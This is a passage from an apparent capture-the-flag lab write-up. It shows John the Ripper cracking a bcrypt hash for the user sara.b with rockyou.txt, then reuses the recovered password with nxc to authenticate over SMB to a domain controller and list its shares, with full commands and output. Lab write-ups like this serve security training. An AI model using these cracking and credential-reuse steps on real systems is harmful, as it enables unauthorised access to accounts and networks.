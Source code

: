 <p class="indent-paragraph">
John the Ripper tool was executed against the extracted password hash using the popular <code>rockyou.txt</code> wordlist. Within seconds, the password for the admin account <code>sara.b</code> was successfully recovered as <code>Blink182</code><span class="codefix">.</span>
</p>

```
~$ john --wordlist=/usr/share/wordlists/rockyou.txt hash-sara-b.txt 

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Cost 1 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
~$ Blink182         (?)     
1g 0:00:00:01 DONE 0.7299g/s 8934p/s 8934c/s 8934C/s auntie..vallejo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### 🧠 Enumerating SMB with Valid Credentials

<p class="indent-paragraph">
With the administrator credentials retrieved from the web application's database, we transitioned to internal enumeration. Using the username <code>sara.b</code> and the recovered password <code>Blink182</code><span class="codefix">,</span> we performed SMB authentication against the domain controller. The credentials were successfully validated, confirming that the compromised user is part of the internal domain <code>certificate.htb</code><span class="codefix">.</span>
</p>

```
~$ nxc smb dc.01certificate.htb -u sara.b -p 'Blink182'                                                 
SMB         <IP>     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False)
SMB         <IP>     445    DC01             [+] certificate.htb\sara.b:Blink182 
```

<p class="indent-paragraph">
With valid domain credentials for <code>sara.b</code><span class="codefix">,</span> we proceeded to enumerate available SMB shares on the <code>DC01</code> host using <code>nxc</code><span class="codefix">.</span> The account successfully authenticated and revealed accessible shares such as <code>NETLOGON</code><span class="codefix">,</span> <code>SYSVOL</code><span class="codefix">,</span> and <code>IPC$</code><span class="codefix">,</span> all with read permissions. Although no writeable shares were identified at this stage, this level of access is often sufficient to proceed with further enumeration or identify exploitable misconfigurations in Active Directory environments.
</p>

```
~$ nxc smb dc01.certificate.htb -u sara.b -p 'Blink182' --shares
SMB         <IP>     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False) 
SMB         <IP>     445    DC01             [+] certificate.htb\sara.b:Blink182 
SMB         <IP>     445    DC01             [*] Enumerated shares
SMB         <IP>     445    DC01             Share           Permissions     Remark
SMB         <IP>     445    DC01             -----           -----------     ------
SMB         <IP>     445    DC01             ADMIN$                          Remote Admin
SMB         <IP>     445    DC01             C$                              Default share
SMB         <IP>     445    DC01             IPC$            READ            Remote IPC
SMB         <IP>     445    DC01             NETLOGON        READ            Logon server share 
SMB         <IP>     445    DC01             SYSVOL          READ            Logon server share
```
